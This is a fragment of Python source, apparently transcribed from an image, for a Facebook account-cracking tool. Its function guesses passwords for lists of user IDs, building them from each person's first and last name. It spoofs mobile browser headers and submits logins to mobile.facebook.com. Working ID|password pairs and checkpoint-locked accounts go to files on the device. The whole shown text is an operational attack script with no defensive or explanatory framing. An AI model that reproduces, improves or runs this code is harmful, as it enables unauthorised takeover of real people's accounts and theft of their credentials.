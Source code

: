                 except requests.exceptions.ConnectionError:
                        time.sleep(10)
                except Exception as e:
                        pass
def ffb7(ids,names,passlist):
        global loop,oks,cps
        sys.stdout.write(f'\r\r\033[1;37m [AVI] %s|\033[1;32mOK:-%s \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        session = requests.Session()
        try:
                first = names.split(f' ')[0]
                try:
                        last = names.split(f' ')[1]
                except:
                        last = 'Ahmed'
                ps = first.lower()
                ps2 = last.lower()
                for fikr in passlist:
                        pas = fikr.replace(f'First',first).replace(f'Last',last).replace(f'first',ps).replace(f'last',ps2)
                        ua=random.choice(ugen)
                        head = {'Host': 'mobile.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform':'"Android"', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': ua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-US,en;q=0.9'}
                        getlog = session.get(f'https://mobile.facebook.com/login/device-based/password/?uid={ids}&flow=login_no_pin&refsrc=deprecated&_rdr')
                        idpass ={"lsd":re.search(f'name="lsd" value="(.*?)"', str(getlog.text)).group(1),"jazoest":re.search(f'name="jazoest" value="(.*?)"', str(getlog.text)).group(1),"uid":ids,"next":"https://mbasic.facebook.com/login/save-device/","flow":"login_no_pin","pass":pas,}
                        complete = session.post(f'https://mobile.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False,headers=head)
                        Shahin=session.cookies.get_dict().keys()
                        if "c_user" in Shahin:
                                coki=session.cookies.get_dict()
                                kuki = (f";").join([ "%s=%s" % (key, value) for key, value in session.cookies.get_dict().items() ])
                                print(f'\r\r\033[1;32m [AVI-OK] %s | %s'%(ids,pas))
                                open(f'/sdcard/AVI-OK.txt', 'a').write(ids+'|'+pas+'\n')
                                #cek_apk(session,coki)
                                oks.append(ids)
                                break
                        elif 'checkpoint' in Shahin:
                                if 'y' in pcp:
                                        print(f'\r\r\x1b[38;5;126m [INNOCENT-CP] '+ids+' | '+pas+'\033[1;97m')
                                        open(f'/sdcard/NINS-CP.txt', 'a').write(ids+'|'+pas+'\n')
                                        cps.append(ids)
                                        break
                                else:
                                        break
                        else:
                                continue
        except requests.exceptions.ConnectionError:
                time.sleep(20)
        loop+=1